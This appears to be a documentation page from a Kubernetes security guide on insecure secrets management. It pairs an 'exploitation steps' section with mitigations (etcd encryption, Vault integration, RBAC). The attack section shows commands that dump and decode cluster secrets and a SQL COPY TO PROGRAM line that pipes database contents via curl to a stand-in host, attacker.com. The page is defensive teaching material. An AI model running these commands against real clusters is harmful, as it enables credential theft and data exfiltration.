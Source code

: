 ```yaml
---
sidebar_position: 5
title: Insecure Secrets Management
description: Understanding the risks of insecure secrets management in Kubernetes and best practices to securely handle sensitive data.
---
```


# Insecure Secrets Management

Insecure secrets management in Kubernetes can lead to the exposure of sensitive data, such as API keys, database credentials, and certificates. Storing secrets in plaintext or using insecure backends increases the risk of unauthorized access by attackers.

---

## Exploitation Steps: Accessing Insecurely Stored Secrets

An attacker can identify Kubernetes Secrets stored in plaintext using the following command:

```bash
kubectl get secrets -o yaml
```

### 1. Decode a Kubernetes Secret

The attacker extracts and decodes a Base64-encoded secret:

```bash
kubectl get secret db-secret -o go-template='{{.data.password|base64decode}}'
```

### 2. Access Sensitive Services Using Exposed Credentials

The attacker uses the decoded credentials to access a database:

```bash
psql -h <database-ip> -U admin -W
```

### 3. Exfiltrate Data from the Database

The attacker exports sensitive data from the database to an external server:

```sql
COPY (SELECT * FROM sensitive_data) TO PROGRAM 'curl -X POST -d @- http://attacker.com/upload';
```

### Result

The attacker can access and exfiltrate sensitive data, potentially causing data breaches and regulatory compliance violations.

---

## Mitigation Techniques and Fixes

### 1. Encrypt Secrets at Rest

**Issue:** Secrets stored in etcd are not encrypted by default.<br/>
**Fix:** Enable encryption at rest in the Kubernetes configuration.

#### Example Encryption Configuration for etcd

```yaml
apiVersion: apiserver.config.k8s.io/v1
kind: EncryptionConfiguration
resources:
- resources:
  - secrets
  providers:
  - aescbc:
      keys:
      - name: key1
        secret: c2VjcmV0LWtleS1mb3ItZW5jcnlwdGlvbg==
  - identity: {}
```

### 2. Use External Secret Management Solutions

**Issue:** Kubernetes Secrets alone do not provide advanced security features.<br>
**Fix:** Integrate with external secret management tools like HashiCorp Vault, AWS Secrets Manager, or Azure Key Vault.

#### Example of Using External Secrets with Kubernetes

```yaml
apiVersion: secrets-store.csi.x-k8s.io/v1
kind: SecretProviderClass
metadata:
  name: vault-secrets
spec:
  provider: vault
  parameters:
    vaultAddress: "https://vault.example.com"
    roleName: "k8s-role"
    objects: |
      array:
        - objectName: "db-password"
          secretPath: "secret/data/db"
          secretKey: "password"
```

### 3. Limit Access to Secrets with RBAC

**Issue:** Lack of access controls allows unauthorized access to secrets.<br>
**Fix:** Implement Role-Based Access Control (RBAC) to restrict secret access.

#### Example of RBAC Policy for Secret Access

```yaml
apiVersion: rbac.authorization.k8s.io/v1
kind: Role
metadata:
  namespace: default
  name: secret-reader
rules:
- apiGroups: [""]
  resources: ["secrets"]
  verbs: ["get"]
---
apiVersion: rbac.authorization.k8s.io/v1
kind: RoleBinding
metadata:
  name: read-secrets
  namespace: default
subjects:
- kind: ServiceAccount
  name: secret-reader-sa
roleRef:
  kind: Role
  name: secret-reader
  apiGroup: rbac.authorization.k8s.io
```

---

## Conclusion

To securely manage Kubernetes secrets:

- Always enable encryption at rest using etcd encryption.
- Utilize external secret management solutions for enhanced security.
- Apply RBAC policies to restrict access to sensitive data.
